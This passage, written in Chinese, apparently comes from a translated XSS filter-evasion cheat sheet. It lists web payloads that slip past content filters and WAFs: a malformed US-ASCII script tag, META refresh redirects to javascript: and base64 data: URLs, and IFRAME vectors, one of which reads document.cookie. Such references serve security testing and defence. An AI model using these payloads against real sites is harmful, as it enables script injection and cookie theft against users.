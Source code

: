 ### US-ASCII 编码

这种攻击使用了 7 位而不是 8 位的畸形 ASCII 编码。这种 XSS 方法可能绕过许多内容过滤器，但仅在主机以 US-ASCII 编码传输或你自己设置编码时有效。这对于绕过 Web 应用程序防火墙（WAF）的 XSS 规避比服务器端过滤器规避更有用。Apache Tomcat 是已知的唯一默认仍以 US-ASCII 编码传输的服务器。

```js
¼script¾alert(¢XSS¢)¼/script¾
```

### META

元刷新奇怪的地方在于它不在标头中发送引用者 - 因此可以用于某些类型的攻击，在这些攻击中你需要摆脱引用 URL：

```html
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
```

#### 使用数据的 META

指令 URL 方案。这种攻击方法很好，因为它没有任何可见的内容包含 SCRIPT 一词或 JavaScript 指令，因为它利用了 base64 编码。请参阅 [RFC 2397](https://datatracker.ietf.org/doc/html/rfc2397) 了解更多详情。

```html
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
```

#### 带有额外 URL 参数的 META

"如果目标网站尝试查看 URL 是否以 `<http://>;` 开头，你可以使用以下技术绕过此过滤规则：

```html
<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">
```

（由 Moritz Naumann 提交）

### IFRAME

如果允许 iFrame，还会出现许多其他 XSS 问题：

```html
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
```

### 基于事件的 IFRAME

IFrame 和大多数其他元素可以使用基于事件的混乱，如下所示：

```html
<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>
```

（由 David Cross 提交）

### FRAME

Frame 与 iFrame 有相同类型的 XSS 问题
